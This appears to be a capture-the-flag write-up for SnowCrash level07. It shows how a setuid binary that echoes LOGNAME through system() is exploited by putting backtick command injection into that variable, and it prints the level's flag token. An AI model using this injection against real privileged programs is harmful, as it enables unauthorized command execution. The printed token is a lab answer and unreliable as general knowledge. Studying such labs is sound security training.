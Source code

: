 [README.md](../README.md)
# level07

Upon logging in as level07, we find a file named `level07` in the home directory:
```sh
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

The presence of the setuid and setgid bits on an executable file can pose security risks as it enables the program to execute with elevated privileges.

```sh
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                 = 2007
geteuid()                                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
getenv("LOGNAME")                                                         = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff49, 0xb7e5ee55, 0xb7fed280)       = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
```

We can manipulate the environment variable LOGNAME:
```sh
level07@SnowCrash:~$ export LOGNAME='Level08'
level07@SnowCrash:~$ ./level07
Level08
```

By utilizing backticks in the environment variable assignment, we can execute commands within the context of the program:
```sh
level07@SnowCrash:~$ export LOGNAME=\`ls\`
level07@SnowCrash:~$ ./level07
ls: cannot open directory .: Permission denied
```

Executing the getflag command:
```sh
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

By employing the backtick character (`) in the environment variable assignment, we embed commands within the shell command executed by the program. This allows for command execution when the LOGNAME variable is referenced.